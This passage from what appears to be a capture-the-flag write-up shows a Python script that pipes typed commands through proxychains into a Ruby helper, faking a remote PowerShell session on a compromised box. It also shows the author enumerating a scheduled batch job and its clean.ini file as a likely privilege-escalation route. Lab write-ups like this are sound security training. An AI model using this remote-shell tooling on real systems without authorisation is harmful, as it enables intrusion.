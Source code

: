 I'm able to execute PowerShell commands as `simple` in the box!


{% include image.html image_alt="c4343fcd.png" image_src="/ac4b4983-03a8-46fd-acb9-d56362db4287/c4343fcd.png" %}


In conjuntion with `cmd.rb`, I wrote another Python script (I'm not too familiar with Ruby) to simulate a PowerShell session.

<div class="filename"><span>shell.py</span></div>

```python
from cmd import Cmd
import os

class Shell(Cmd):

  def do_quit(self, line):
    """Quits the shell"""
    print "Quiting"
    raise SystemExit

  def default(self, line):
    os.system("proxychains ruby cmd.rb " + "'" + line + "'" + " | sed '1d' ")

if __name__ == "__main__":

  s = Shell()
  s.prompt = 'PS> '
  s.cmdloop("Windows PowerShell\nCopyright (C) Microsoft Corporation. All rights reserved.\n")
```


{% include image.html image_alt="ff2613c9.png" image_src="/ac4b4983-03a8-46fd-acb9-d56362db4287/ff2613c9.png" %}


During enumeration of `simple`'s account, I notice a phenomenon going on at `c:\util\scripts`. The presence of `clean.ini` suggests that `hacker` reads and parses this file when `dellog.bat` is executed every five minutes (I also notice `hacker` logs in every 5 minutes).


{% include image.html image_alt="f71769c7.png" image_src="/ac4b4983-03a8-46fd-acb9-d56362db4287/f71769c7.png" %}


Here's the layout of `c:\util\scripts`. Note that `dellog.bat` is hidden.


{% include image.html image_alt="137c5940.png" image_src="/ac4b4983-03a8-46fd-acb9-d56362db4287/137c5940.png" %}


This is how `dellog.bat` looks like. I don't have the permissions to read `dellog.ps1` but I believe the parsing of `clean.ini` is done here.


{% include image.html image_alt="4116c2ec.png" image_src="/ac4b4983-03a8-46fd-acb9-d56362db4287/4116c2ec.png" %}
